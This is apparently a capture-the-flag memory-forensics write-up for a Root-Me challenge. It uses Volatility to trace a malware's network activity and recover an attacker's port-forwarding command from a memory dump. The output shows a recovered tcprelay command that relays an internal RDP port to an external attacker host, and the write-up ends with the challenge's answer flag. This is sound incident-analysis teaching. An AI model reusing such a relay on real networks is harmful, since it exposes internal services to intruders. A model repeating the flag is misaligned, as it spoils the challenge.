 ---
tags: []
---
# Command & Control - level 4

- **Description:** Berthier, thanks to this new information about the processes running on the workstation, it's clear that this malware is used to exfiltrate data. 
Find out the ip of the internal server targeted by the hackers!
The validation flag should have this format : IP:PORT
- **Difficulty:** Medium

---

## 🔎 Solution
To investigate the system's network activity, we began by using the `netscan` plugin, which enumerates active network connections. 
Interestingly, the results showed only internal port communications - no external IP connections were identified, suggesting possible use of covert channels or redirection.
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ./vol2/volatility2 -f ch2.dmp --profile=Win7SP0x86 netscan | grep "iexplore.exe"
Volatility Foundation Volatility Framework 2.6
0x1dedb4f8         TCPv4    127.0.0.1:49178                127.0.0.1:12080      ESTABLISHED      2772     iexplore.exe   
0x1fbca1a0         UDPv4    127.0.0.1:60151                *:*                                   3044     iexplore.exe   2013-01-12 16:57:47 UTC+0000
0x1fa21008         TCPv4    127.0.0.1:58785                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fa3ea48         TCPv4    127.0.0.1:58808                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fa41008         TCPv4    127.0.0.1:58797                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fa468b0         TCPv4    127.0.0.1:58747                127.0.0.1:12080      CLOSED           3044     iexplore.exe   
0x1fa5f3d8         TCPv4    127.0.0.1:58823                127.0.0.1:12080      CLOSED           3044     iexplore.exe   
0x1fa78ac0         TCPv4    127.0.0.1:58806                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fa80880         TCPv4    127.0.0.1:58781                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fa83c98         TCPv4    127.0.0.1:58727                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fa859c0         TCPv4    127.0.0.1:58740                127.0.0.1:12080      CLOSED           3044     iexplore.exe   
0x1fa9a678         TCPv4    127.0.0.1:58787                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1faa97f8         TCPv4    127.0.0.1:58742                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fab2008         TCPv4    127.0.0.1:58791                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fad2988         TCPv4    127.0.0.1:58749                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fada310         TCPv4    127.0.0.1:58733                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fae1ba0         TCPv4    127.0.0.1:58815                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1faeddf8         TCPv4    127.0.0.1:58811                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1faf7c58         TCPv4    127.0.0.1:58783                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fafe208         TCPv4    127.0.0.1:58738                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fb80df8         TCPv4    127.0.0.1:58792                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fca0820         TCPv4    127.0.0.1:58729                127.0.0.1:12080      CLOSED           3044     iexplore.exe   
0x1fd57da0         TCPv4    127.0.0.1:58795                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fd92378         TCPv4    127.0.0.1:58817                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fd9b580         TCPv4    127.0.0.1:58731                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe   
0x1fd9f838         TCPv4    127.0.0.1:58758                127.0.0.1:12080      ESTABLISHED      3044     iexplore.exe  
```

We extended our analysis by leveraging the `consoles` plugin to review the system's console history. 
This revealed interactions involving the `conhost.exe` process. 
```bash
ConsoleProcess: conhost.exe Pid: 2168
Console: 0x1081c0 CommandHistorySize: 50
HistoryBufferCount: 3 HistoryBufferMax: 4
OriginalTitle: %SystemRoot%\system32\cmd.exe
Title: C:\Windows\system32\cmd.exe
AttachedProcess: cmd.exe Pid: 1616 Handle: 0x64
----
CommandHistory: 0x427a60 Application: tcprelay.exe Flags: 
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x0
----
CommandHistory: 0x427890 Application: whoami.exe Flags: 
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x0
----
CommandHistory: 0x427700 Application: cmd.exe Flags: Allocated
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x64
----
```

Specifically, we observed that `conhost.exe` had executed the following:
- `tcprelay.exe`: A known utility for redirecting and spoofing TCP connections, often leveraged in network-based attacks for port forwarding or establishing reverse shells.
- `whoami.exe`: Likely used to confirm the privileges of the current session.
- `cmd.exe`: Notably marked as **Allocated**, indicating it is still active in memory.

These findings suggest that an attacker may have used `cmd.exe` to execute `tcprelay.exe` for TCP port forwarding, followed by `whoami.exe` to verify shell activity and user privileges.  

Since `conhost.exe` handles console input/output, it likely processed these commands. 
To dig deeper, we performed a memory dump of the `conhost.exe` process using the `memdump` plugin, resulting in the file `2168.dmp`.
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ./vol2/volatility2 -f ch2.dmp --profile=Win7SP0x86 memdump -p 2168 --dump-dir=./root-me 
Volatility Foundation Volatility Framework 2.6
************************************************************************
Writing conhost.exe [  2168] to 2168.dmp
```

Finally, we analyzed the dump using `strings` and searched for occurrences of **tcprelay**. 
This yielded critical information, including the target IP address and port used by the attacker.
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ strings ./root-me/2168.dmp | grep "tcprelay.exe"     
tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeJ"
C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeN_
C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exeg[j
C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
5C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exeg[j
```

## 🚩Flag
> `192.168.0.22:3389`


                                                                                                                                      
 
                                                                                                                                     


                                                                                                                                     

                                                                                                                                     

